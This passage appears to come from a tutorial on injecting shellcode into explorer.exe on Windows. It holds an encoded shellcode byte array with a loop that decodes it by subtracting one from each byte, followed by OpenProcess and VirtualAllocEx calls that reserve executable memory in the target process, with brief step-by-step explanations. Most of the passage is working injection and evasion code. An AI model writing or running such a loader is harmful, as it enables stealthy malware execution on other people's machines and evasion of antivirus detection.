```
	unsigned char code[] = "\xfd\x49\x84\xe5\xf1\xe9\xc1\x1\x1\x1\x42\x52\x42\x51\x53\x52\x57\x49\x32\xd3\x66\x49\x8c\x53\x61\x49\x8c\x53\x19\x49\x8c\x53\x21\x49\x8c\x73\x51\x49\x10\xb8\x4b\x4b\x4e\x32\xca\x49\x32\xc1\xad\x3d\x62\x7d\x3\x2d\x21\x42\xc2\xca\xe\x42\x2\xc2\xe3\xee\x53\x42\x52\x49\x8c\x53\x21\x8c\x43\x3d\x49\x2\xd1\x8c\x81\x89\x1\x1\x1\x49\x86\xc1\x75\x68\x49\x2\xd1\x51\x8c\x49\x19\x45\x8c\x41\x21\x4a\x2\xd1\xe4\x57\x49\xff\xca\x42\x8c\x35\x89\x49\x2\xd7\x4e\x32\xca\x49\x32\xc1\xad\x42\xc2\xca\xe\x42\x2\xc2\x39\xe1\x76\xf2\x4d\x4\x4d\x25\x9\x46\x3a\xd2\x76\xd9\x59\x45\x8c\x41\x25\x4a\x2\xd1\x67\x42\x8c\xd\x49\x45\x8c\x41\x1d\x4a\x2\xd1\x42\x8c\x5\x89\x49\x2\xd1\x42\x59\x42\x59\x5f\x5a\x5b\x42\x59\x42\x5a\x42\x5b\x49\x84\xed\x21\x42\x53\xff\xe1\x59\x42\x5a\x5b\x49\x8c\x13\xea\x58\xff\xff\xff\x5e\x4a\xbf\x78\x74\x33\x60\x34\x33\x1\x1\x42\x57\x4a\x8a\xe7\x49\x82\xed\xa1\x2\x1\x1\x4a\x8a\xe6\x4a\xbd\x3\x1\x12\x5d\xc1\xa9\x2\x5\x42\x55\x4a\x8a\xe5\x4d\x8a\xf2\x42\xbb\x4d\x78\x27\x8\xff\xd6\x4d\x8a\xeb\x69\x2\x2\x1\x1\x5a\x42\xbb\x2a\x81\x6c\x1\xff\xd6\x51\x51\x4e\x32\xca\x4e\x32\xc1\x49\xff\xc1\x49\x8a\xc3\x49\xff\xc1\x49\x8a\xc2\x42\xbb\xeb\x10\xe0\xe1\xff\xd6\x49\x8a\xc8\x6b\x11\x42\x59\x4d\x8a\xe3\x49\x8a\xfa\x42\xbb\x9a\xa6\x75\x62\xff\xd6\x49\x82\xc5\x41\x3\x1\x1\x4a\xb9\x64\x6e\x65\x1\x1\x1\x1\x1\x42\x51\x42\x51\x49\x8a\xe3\x58\x58\x58\x4e\x32\xc1\x6b\xe\x5a\x42\x51\xe3\xfd\x67\xc8\x45\x25\x55\x2\x2\x49\x8e\x45\x25\x19\xc7\x1\x69\x49\x8a\xe7\x57\x51\x42\x51\x42\x51\x42\x51\x4a\xff\xc1\x42\x51\x4a\xff\xc9\x4e\x8a\xc2\x4d\x8a\xc2\x42\xbb\x7a\xcd\x40\x87\xff\xd6\x49\x32\xd3\x49\xff\xcb\x8c\xf\x42\xbb\x9\x88\x1e\x61\xff\xd6\xbc\xe1\x1e\x2b\xb\x42\xbb\xa7\x96\xbe\x9e\xff\xd6\x49\x84\xc5\x29\x3d\x7\x7d\xb\x81\xfc\xe1\x76\x6\xbc\x48\x14\x73\x70\x6b\x1\x5a\x42\x8a\xdb\xff\xd6";

	int i;
	for(i=0;i<sizeof(code)-1;i++){
		if (code[i] == 255){
			code[i] = code[i];
		}
		else{
			code[i] = code[i] - 0x01;
		}
	}
```

The third part is the OpenProcess function where we give it the process id and it assigns a reference to the location of this process which is in this case explorer.exe

```
HANDLE process_handle;
DWORD pointer_after_allocated;
process_handle =  OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id);

if (process_handle==NULL){
  puts("[-]Error while open the process\n");
}else{
  puts("[+] Process Opened sucessfully\n");
}
```

The fourth part is the VirtualAllocEx where we give it the process reference and the size of shellcode to reserve in the memory of explorer.exe a space to hold the shellcode.

```
pointer_after_allocated = VirtualAllocEx(process_handle, NULL , sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

if(pointer_after_allocated==NULL){
	puts("[-]Error while get the base address to write\n");
}else{
	printf("[+]Got the address to write 0x%x\n", pointer_after_allocated);
}
```
